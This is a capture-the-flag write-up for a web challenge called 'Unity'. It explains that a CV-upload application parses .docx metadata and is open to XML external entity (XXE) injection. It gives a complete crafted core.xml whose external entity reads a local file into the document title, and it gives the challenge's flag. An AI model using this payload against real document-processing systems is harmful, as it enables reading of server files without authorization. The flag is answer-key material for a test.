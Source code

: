 # Unity
**Category:** web

**Author:** styx00

## Description
Rick needs help to defeat Unity; an evil entity which is taking the minds of normal aliens. To find the best help possible, Rick developed a web application to gather and assess the CVs of those who are brave enough to help.

## Solution

<details>
 <summary>Reveal Spoiler</summary>

The application is vulnerable to an External XML Entity (XXE) vulnerability. To exploit this, create a docx document and edit `/docprops/core.xml` as follows:

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'file://flag.txt'>]>
<cp:coreProperties xmlns:cp="http://schemas.openxmlformats.org/package/2006/metadata/core-properties" xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:dcterms="http://purl.org/dc/terms/" xmlns:dcmitype="http://purl.org/dc/dcmitype/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><dcterms:created xsi:type="dcterms:W3CDTF">2022-04-04T13:58:23Z</dcterms:created><dc:creator>mycreator</dc:creator><dc:description></dc:description><dc:language>en-US</dc:language><cp:lastModifiedBy></cp:lastModifiedBy><dcterms:modified xsi:type="dcterms:W3CDTF">2022-04-04T14:57:39Z</dcterms:modified><cp:revision>4</cp:revision><dc:subject></dc:subject><dc:title>&test;</dc:title></cp:coreProperties>
```

The important bits are the `<!DOCTYPE test [<!ENTITY test SYSTEM 'file://flag.txt'>]>` and `<dc:title>&test;</dc:title>`. The participants get a hint when they upload a docx file "Your file (no title provided) has been uploaded successfully!". This indicates that there is something fishy going on with the `title` element.

Flag: `CCSC{g00d_job_I_4m_sur3_R1ck_w1ll_be_s4fe_with_y0u}`

</details>
